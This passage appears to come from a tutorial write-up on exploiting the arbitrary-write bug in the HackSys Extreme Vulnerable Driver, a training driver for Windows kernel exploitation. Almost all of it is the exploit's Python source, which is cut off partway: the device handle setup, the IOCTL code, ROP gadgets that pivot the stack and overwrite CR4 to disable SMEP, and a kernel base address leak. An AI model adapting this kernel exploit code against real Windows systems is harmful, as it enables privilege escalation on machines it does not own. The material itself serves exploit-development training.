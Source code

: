 To get the opcodes for this assembly shellcode, you can use [this](https://github.com/viniciusmarangoni/shellcoding-tools).

### Complete Exploit

So now we have completed the exploit. Below you can see the complete source code, but you can also access it in [my github](https://github.com/viniciusmarangoni/hevd-arbitrary-write):

```python
import sys
import struct
import subprocess
from ctypes import *

# Constants used in Windows APIs
GENERIC_READ = 0x80000000
GENERIC_WRITE = 0x40000000
FILE_SHARE_READ = 0x00000001
FILE_SHARE_WRITE = 0x00000002
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x00000080
FILE_FLAG_OVERLAPPED = 0x40000000
MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
PAGE_EXECUTE_READWRITE = 0x40

# HEVD IOCTL code
IOCTL_ARBITRARY_WRITE = 0x22200b

# ROP related
g_stack_pivot = 0x00000000003e92b9       # mov esp, ebx; ret;
g_mov_cr4_rcx_addr = 0x000000000039df47  # mov cr4, rcx; ret;
g_pop_rcx_addr = 0x0000000000205dbc      # pop rcx; ret
cr4_smep_disabled = 0x2506f8             # CR4 register value for disabled SMEP


# Get a handle to the HEVD device driver
def get_device_handle():
    handle = windll.kernel32.CreateFileA(
        b'\\\\.\\HackSysExtremeVulnerableDriver', 
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        None,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        None
    )

    return handle


# Leak the kernel base address using EnumDeviceDrivers API
def get_kernel_base():
    drivers = (c_ulonglong * 2048)()
    bytes_returned = (c_long)()

    windll.Psapi.EnumDeviceDrivers(byref(drivers), sizeof(drivers), byref(bytes_returned))

    return drivers[0]


# Load ntoskrnl.exe in the context of our process using LoadLibrary
# Then, use GetProcAddress to get the address to some exported symbol
```
